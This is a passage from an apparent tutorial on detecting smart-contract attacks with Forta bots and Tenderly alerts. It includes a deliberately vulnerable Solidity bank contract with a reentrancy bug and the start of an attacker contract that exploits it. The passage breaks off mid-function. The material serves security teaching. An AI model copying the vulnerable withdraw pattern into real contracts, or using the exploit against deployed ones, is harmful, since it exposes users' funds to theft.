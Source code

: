 #### 3️⃣ Deploy the Bot to Forta Network

```bash
forta publish
```

✅ Now, Forta will monitor all transactions and alert you for high-value withdrawals.

### 🛠️ Step 2: Setting Up Tenderly Alerts for Unauthorized Admin Calls

1️⃣ Go to **Tenderly → Alerts**  
2️⃣ Create a New Alert with the following parameters:

- **Contract:** `YourContract.sol`
- **Function:** `setAdmin()`
- **Condition:** If caller ≠ owner, trigger alert
- **Notification Method:** 📩 Email | 🚨 Telegram | 📢 Discord

3️⃣ Save & Enable Monitoring

✅ Now, Tenderly will notify you if an unauthorized user attempts to change admin privileges.

---

## 📌 2️⃣ Simulating a Smart Contract Attack Using Forta & Tenderly

We will simulate a reentrancy attack and monitor it in Forta & Tenderly.

### 🛠️ Step 1: Deploy the Vulnerable Smart Contract

```solidity
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        (bool success, ) = msg.sender.call{value: amount}("");  // 🚨 Reentrancy risk!
        require(success, "Transfer failed");
        balances[msg.sender] -= amount;  // ❌ Balance updates after transfer!
    }
}
```

### 🛠️ Step 2: Deploy the Attacker Contract

```solidity
pragma solidity ^0.8.0;

import "./VulnerableBank.sol";

contract Attacker {
    VulnerableBank public vulnerableBank;

    constructor(address _vulnerableBank) {
        vulnerableBank = VulnerableBank(_vulnerableBank);
    }

    function attack() public payable {
        vulnerableBank.deposit{value: msg.value}();
```